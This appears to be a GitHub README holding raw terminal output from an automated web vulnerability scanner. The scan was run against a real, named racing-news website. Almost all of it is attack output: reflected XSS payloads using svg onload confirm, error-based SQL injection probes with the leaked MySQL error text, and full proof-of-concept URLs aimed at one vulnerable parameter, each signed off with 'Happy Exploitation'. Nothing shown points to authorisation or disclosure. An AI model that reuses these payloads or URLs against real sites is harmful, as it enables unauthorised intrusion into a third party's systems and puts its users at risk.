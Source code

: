 # gittest
[!] Fingerprinting the backend Technologies.
 [!] Host: www.racingandsports.com.au
 [!] WebServer: cloudflare
 [!] Now Scanning for Remote Code/Command Execution 
 [!] Covering Linux & Windows Operating Systems 
 [!] Please wait ....
 [!] Target is not vulnerable!

 [!] Now Scanning for XSS 
 [!] Please wait ....
 [*] Payload Found . . .
 [*] Payload:  %27%3Ezigoo0%3Csvg%2Fonload%3Dconfirm%28%2Fzigoo0%2F%29%3Eweb
 [!] Code Snippet: <title>Racing And Sports - ''>zigoo0<svg/onload=confirm(/zigoo0/)>web</title>
 [*] POC: https://www.racingandsports.com.au/en/newsType.asp?t=%27%27%3Ezigoo0%3Csvg%2Fonload%3Dconfirm%28%2Fzigoo0%2F%29%3Eweb
 [*] Happy Exploitation :D
 [*] Payload Found . . .
 [*] Payload:  %27%3Ezigoo0%3Csvg%2Fonload%3Dconfirm%28%2Fzigoo0%2F%29%3Eweb
 [!] Code Snippet: var url = "/en/newsType.asp?t=''>zigoo0<svg/onload=confirm(/zigoo0/)>web&d=" + year + "-" + month;
 [*] POC: https://www.racingandsports.com.au/en/newsType.asp?t=%27%27%3Ezigoo0%3Csvg%2Fonload%3Dconfirm%28%2Fzigoo0%2F%29%3Eweb
 [*] Happy Exploitation :D
 [*] Payload Found . . .
 [*] Payload:  %27%3Ezigoo0%3Csvg%2Fonload%3Dconfirm%28%2Fzigoo0%2F%29%3Eweb
 [!] Code Snippet: <h4>''>zigoo0<svg onload=confirm(/zigoo0/)>web</h4>
 [*] POC: https://www.racingandsports.com.au/en/newsType.asp?t=%27%27%3Ezigoo0%3Csvg%2Fonload%3Dconfirm%28%2Fzigoo0%2F%29%3Eweb
 [*] Happy Exploitation :D
 [*] Payload Found . . .
 [*] Payload:  %78%22%78%3e%78
 [!] Code Snippet: <title>Racing And Sports - 'x"x>x</title>
 [*] POC: https://www.racingandsports.com.au/en/newsType.asp?t=%27%78%22%78%3e%78
 [*] Happy Exploitation :D
 [*] Payload Found . . .
 [*] Payload:  %78%22%78%3e%78
 [!] Code Snippet: var url = "/en/newsType.asp?t='x"x>x&d=" + year + "-" + month;
 [*] POC: https://www.racingandsports.com.au/en/newsType.asp?t=%27%78%22%78%3e%78
 [*] Happy Exploitation :D
 [*] Payload Found . . .
 [*] Payload:  %78%22%78%3e%78
 [!] Code Snippet: <h4>'x"x>x</h4>
 [*] POC: https://www.racingandsports.com.au/en/newsType.asp?t=%27%78%22%78%3e%78
 [*] Happy Exploitation :D
 [*] Payload Found . . .
 [*] Payload:  %22%3Ezigoo0%3Csvg%2Fonload%3Dconfirm%28%2Fzigoo0%2F%29%3Eweb
 [!] Code Snippet: <title>Racing And Sports - '">zigoo0<svg/onload=confirm(/zigoo0/)>web</title>
 [*] POC: https://www.racingandsports.com.au/en/newsType.asp?t=%27%22%3Ezigoo0%3Csvg%2Fonload%3Dconfirm%28%2Fzigoo0%2F%29%3Eweb
 [*] Happy Exploitation :D
 [*] Payload Found . . .
 [*] Payload:  %22%3Ezigoo0%3Csvg%2Fonload%3Dconfirm%28%2Fzigoo0%2F%29%3Eweb
 [!] Code Snippet: var url = "/en/newsType.asp?t='">zigoo0<svg/onload=confirm(/zigoo0/)>web&d=" + year + "-" + month;
 [*] POC: https://www.racingandsports.com.au/en/newsType.asp?t=%27%22%3Ezigoo0%3Csvg%2Fonload%3Dconfirm%28%2Fzigoo0%2F%29%3Eweb
 [*] Happy Exploitation :D
 [*] Payload Found . . .
 [*] Payload:  %22%3Ezigoo0%3Csvg%2Fonload%3Dconfirm%28%2Fzigoo0%2F%29%3Eweb
 [!] Code Snippet: <h4>'">zigoo0<svg onload=confirm(/zigoo0/)>web</h4>
 [*] POC: https://www.racingandsports.com.au/en/newsType.asp?t=%27%22%3Ezigoo0%3Csvg%2Fonload%3Dconfirm%28%2Fzigoo0%2F%29%3Eweb
 [*] Happy Exploitation :D
 [*] Payload Found . . .
 [*] Payload:  zigoo0%3Csvg%2Fonload%3Dconfirm%28%2Fzigoo0%2F%29%3Eweb
 [!] Code Snippet: <title>Racing And Sports - 'zigoo0<svg/onload=confirm(/zigoo0/)>web</title>
 [*] POC: https://www.racingandsports.com.au/en/newsType.asp?t=%27zigoo0%3Csvg%2Fonload%3Dconfirm%28%2Fzigoo0%2F%29%3Eweb
 [*] Happy Exploitation :D
 [*] Payload Found . . .
 [*] Payload:  zigoo0%3Csvg%2Fonload%3Dconfirm%28%2Fzigoo0%2F%29%3Eweb
 [!] Code Snippet: var url = "/en/newsType.asp?t='zigoo0<svg/onload=confirm(/zigoo0/)>web&d=" + year + "-" + month;
 [*] POC: https://www.racingandsports.com.au/en/newsType.asp?t=%27zigoo0%3Csvg%2Fonload%3Dconfirm%28%2Fzigoo0%2F%29%3Eweb
 [*] Happy Exploitation :D
 [*] Payload Found . . .
 [*] Payload:  zigoo0%3Csvg%2Fonload%3Dconfirm%28%2Fzigoo0%2F%29%3Eweb
 [!] Code Snippet: <h4>'zigoo0<svg onload=confirm(/zigoo0/)>web</h4>
 [*] POC: https://www.racingandsports.com.au/en/newsType.asp?t=%27zigoo0%3Csvg%2Fonload%3Dconfirm%28%2Fzigoo0%2F%29%3Eweb
 [*] Happy Exploitation :D
 [!] Congratulations you've found 12 bugs :-) 

 [!] Now Scanning for Error Based SQL Injection 
 [!] Covering MySQL, Oracle, MSSQL, MSACCESS & PostGreSQL Databases 
 [!] Please wait ....
 [*] Payload Found . . .
 [*] Payload:  3%5c
 [!] Code Snippet: <font face="Arial" size=2>[MySQL][ODBC 5.1 Driver][mysqld-5.7.19-17-log]You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'true' order by storyUpdated desc' at line 1</font>
 [*] POC: https://www.racingandsports.com.au/en/newsType.asp?t=%273%5c
 [*] Happy Exploitation :D
 [*] Payload Found . . .
 [*] Payload:  3%27%22%28%29
 [!] Code Snippet: <font face="Arial" size=2>[MySQL][ODBC 5.1 Driver][mysqld-5.7.19-17-log]You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '&quot;()) and month(storyDate) = 3 and year(storyDate) = 2019 and visible='true' orde' at line 1</font>
 [*] POC: https://www.racingandsports.com.au/en/newsType.asp?t=%273%27%22%28%29
 [*] Happy Exploitation :D
 [!] Congratulations you've found 2 bugs :-) 
pcc@pcc-VirtualBox:~/Downloads/webpwn3r-master$ 
